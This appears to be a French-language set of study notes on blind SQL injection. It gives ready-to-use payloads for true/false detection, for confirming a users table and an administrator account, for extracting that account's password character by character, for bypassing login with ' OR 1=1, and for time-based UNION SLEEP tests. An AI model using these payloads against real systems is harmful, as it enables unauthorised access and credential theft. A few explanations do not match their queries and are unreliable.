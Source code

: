 # Blind SQL injection

C'est lorsque nous obtenons peu ou pas de retour pour confirmer si nos requêtes injectées ont réussi ou non, c'est parce que le les messages d'erreur ont été désactivés, mais l'injection fonctionne toujours malgré tout.

## Rechercher

La clé pour découvrir une Blind SQL est de se baser sur une relation conditionnelle vrai ou faux. 

```sh
# Vrai
' and 'a'='a

# Faux
' and 'a'='b
```

- Si la request `vrai` affiche un contenu et la requete `faux` n'affiche pas alors le champ est vulnerable.

---

Affiche la version du serveur 

```sql
' and substring(@@version,1,1)='0
-- Si sa ne fonctionne pas il faut incrementer la valeur de 0 a 1,2,3,4.... jusqu'a obtenir du contenu comme dans la requete `vrai`. Cela affiche le premier caractere de la version du serveur.
```

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
-- confirmant qu'il existe une table appelée users.

' AND (SELECT 'a' FROM users WHERE username='administrator')='a
-- confirmant qu'il existe un utilisateur appelé administrator.

' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
-- déterminer le nombre de caractères du mot de passe de l' administrator. Cette condition doit être vraie, confirmant que le mot de passe comporte plus d'un caractère.

' AND SUBSTRING((SELECT password FROM users WHERE username = 'Administrator'), 1, 1) = 's

' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
-- confirmer que le premier caractère du mot de passe est s ou a
```

**Bypass Authentication**

Saisir ce qui suit dans le champ utilisateur ou du mot de passe: 

```sql
' OR 1=1;--
' or 1=1; -- -
') or 1=1; -- -
```

Que se passe-t-il si nous y saisissons `' or true --` dans le champ du nom d'utilisateur ?

```sql
') or true --
```

**Booleans Bases**

```sql
select * from <table> where database() like 'a%';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur commence par la lettre a.

```sql
select * from <table> where database() like '%n';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur se termine par la lettre n.

```sql
select * from <table> where username like '%mi%';
```

Cela renvoie toutes les lignes avec un nom d'utilisateur contenant les caractères mi en leur sein.

## Time Base

Au lieu de cela, votre indicateur d'une requête correcte est basé sur le temps que la requête prend pour se terminer. Ce délai est introduit en utilisant des méthodes intégrées telles que **`SLEEP(x)`** parallèlement à l'instruction UNION. 
La méthode sleep ne sera exécutée qu'après une instruction UNION SELECT réussie.

> S'il n'y a pas eu de pause dans le temps de réponse, on sait que la requête a échoué.

```sql
admin123' UNION SELECT SLEEP(5),2;--
```